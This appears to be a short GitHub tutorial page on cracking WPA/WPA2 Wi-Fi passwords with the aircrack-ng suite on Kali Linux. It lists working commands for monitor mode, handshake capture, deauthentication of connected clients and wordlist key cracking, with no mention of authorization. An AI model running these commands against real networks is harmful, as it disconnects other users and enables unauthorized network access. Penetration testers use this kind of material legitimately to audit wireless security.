 <h3>WiFi Hacking - Aircrack-ng</h3>

<p>Aircrack-ng is a powerful suite used to audit wireless networks. It captures WPA/WPA2 handshakes via packet sniffing (using tools like airodump-ng), then uses dictionary or brute-force attacks to crack the password. The process typically involves putting the Wi-Fi card into monitor mode, capturing the handshake during a client connection, and using aircrack-ng to attempt key recovery.</p>

OS = Kali Linux Live Everything > You may download it from https://kali.org<br>
Tools - aircrack-ng<br>
<br>
Hardwares - Atheros 9721 or ALFA Model AWUS036NH<br>
OR You may boot Kali Linux Live Everything by making a bootable USB using "RUFUS" and use your own laptop's network adapter <b>(Important! It should support "Monitor Mode" otherwise it will not work)<b><br>
<br>
Tool	Purpose	Example Command<br>
<br>
airmon-ng<br>
[Enable monitor mode] >>> sudo airmon-ng start wlan0<br>
<br>
airodump-ng<br>
[Capture network traffic] >>> sudo airodump-ng -c 6 wlan0mon<br>
<br>
aireplay-ng<br>
[Inject/deauth packets] >>> sudo aireplay-ng -0 1 ...<br>
<br>
aircrack-ng<br>
[Crack WPA/WEP keys] >>> sudo aircrack-ng -w wordlist.lst ...<br>
<br>
<br>
Kali Linux Commands:<br>
<br>
1. ifconfig to check network interfaces<br>
2. iwconfig to check wireless interfaces<br>
 By default the wireless interface is in MANAGED MODE. <br>
3. airmon-ng stop wlan0 (STOP - if the interface is wlan0)<br>
4. airmon-ng start wlan0 (START - It will be gone into monitoring mode)<br>
5. airodump-ng wlan0 or wlan0mon<br>
6. airodump-ng --bssid <b>BSSID</b> --channel <b>CHANNEL</b> -w <b>ESSID</b> wlan0 (or if its wlan0mon)<br>
7. Open another terminal or terminal tab and then enter the following command<br>
8. aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0mon<br>
   Or wait for someone to join the network. <br>
9. aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap<br>
